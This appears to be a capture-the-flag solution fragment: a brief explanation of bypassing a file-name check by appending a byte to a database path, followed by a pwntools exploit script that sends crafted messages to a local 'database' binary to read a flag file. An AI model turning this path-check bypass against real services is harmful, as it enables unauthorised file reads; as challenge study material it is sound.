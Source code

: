 If we makes a char(`g`, 0x67) on the end of `db_path` first, we can bypass file name check logic.

Then, we can fill with CWD.

```py
from pwn import *

def get_db():
    p.sendlineafter(b"> ", b'5')

p = process('./database')

# 1. makes a char end of db_path
p.sendafter(b"> ", b'1'.ljust(0x10, b'\0') + p64(0x0000000000011800))
p.sendlineafter(b"size: ", str(0x67).encode())
p.sendafter(b"content: ", b'a'*67)

# 2. fill with CWD in MSG_LOAD_DB
p.sendafter(b"> ", b'1'.ljust(0x10, b'\0') + p64(0x0000000000000003))
p.sendlineafter(b"size: ", str(0x80).encode())
p.sendafter(b"content: ", b'.' + b'/'*(0x80 - 4) + b'fla')

get_db()

p.interactive()
```
